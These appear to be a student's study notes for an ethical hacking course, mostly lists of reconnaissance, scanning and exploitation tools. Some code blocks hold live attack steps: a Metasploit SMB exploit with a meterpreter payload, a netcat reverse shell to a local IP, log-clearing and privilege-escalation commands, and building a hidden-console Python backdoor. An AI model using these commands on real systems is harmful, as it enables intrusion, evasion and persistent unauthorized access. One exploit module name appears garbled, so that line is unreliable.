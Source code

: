 # Complete Ethical Hacking Bootcamp 2021: Zero to Mastery

https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery

## Section 4: Reconnaissance & Information Gathering
* ping
* whois
* nslookup
* https://ipinfo.info/
* whatweb
* theHarvester
* hunter.io
* sherlock

## Section 5: Scanning
* metasploitable
* arp
* netdiscover
* nmap

## Section 7: Vulnerability Analysis
* nmap scripts
* google search exploit
* searchsploit
* nessus

## Section 8: Exploitation & Gaining Access
* metasploit framework
  * msfconsole
```
msf6 > show exploits
msf6 > use exploits/windows/smb/ms06_640_netapi
msf6 exploit(windows/smb/ms06_640_netapi) > show info
msf6 exploit(windows/smb/ms06_640_netapi) > show options
msf6 exploit(windows/smb/ms06_640_netapi) > set RHOSTS 192.168.1.26
msf6 exploit(windows/smb/ms06_640_netapi) > show payloads
msf6 exploit(windows/smb/ms06_640_netapi) > set payload windows/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms06_640_netapi) > show targets
msf6 exploit(windows/smb/ms06_640_netapi) > set target 3
msf6 exploit(windows/smb/ms06_640_netapi) > exploit
msf6 exploit(windows/smb/ms06_640_netapi) > run
msf6 > search vsftpd
msf6 > sessions
msf6 > sessions -i <id>
```
* netcat
```
# Server
$ nc -lvp 12345
# Client
$ nc -e /bin/bash 192.168.1.9 12345
```
* telnet
* search routersploit

## Section 9: SMBGhost CVE 2020-0796 - Windows 10 Manual Exploitation
* https://rufus.ie/

## Section 10: Gaining Access (Viruses, Trojans, Payloads...)
* Msfvenom
```
$ msfvenom -p ...
$ msfvenom --list encoders
```
* virustotal
* veil
* TheFatRat
* Hexeditor

## Section 11: Post Exploitation - Elevating Privileges, Extracting Data, Running Keyloggers ..
* meterpreter (support both linux and window commands)
```
meterpreter > help
meterpreter > background
meterpreter > guid
meterpreter > getuid
meterpreter > pwd
meterpreter > dir
meterpreter > ls
meterpreter > shell
meterpreter > getsystem
meterpreter > search -f *.jpg
meterpreter > clearev
meterpreter > run post/windows/gather/enum_applications
```
* search bypassuac
```
msf6 > search bypassuac
```
* search persistence
```
msf6 > search persistence
```

## Section 12: Python Coding Project #2 - Backdoor
* run at server
```
$ python3 server.py
```
* run at client
```
$ python3 backdoor.py
```
* Compile to window exe file
```
$ pyinstaller backdoor.py --onefile --noconsole
```

## Section 13: Website Application Penetration Testing
* dirb
* burpsuite
* ShellShock
* Command Injection
* 
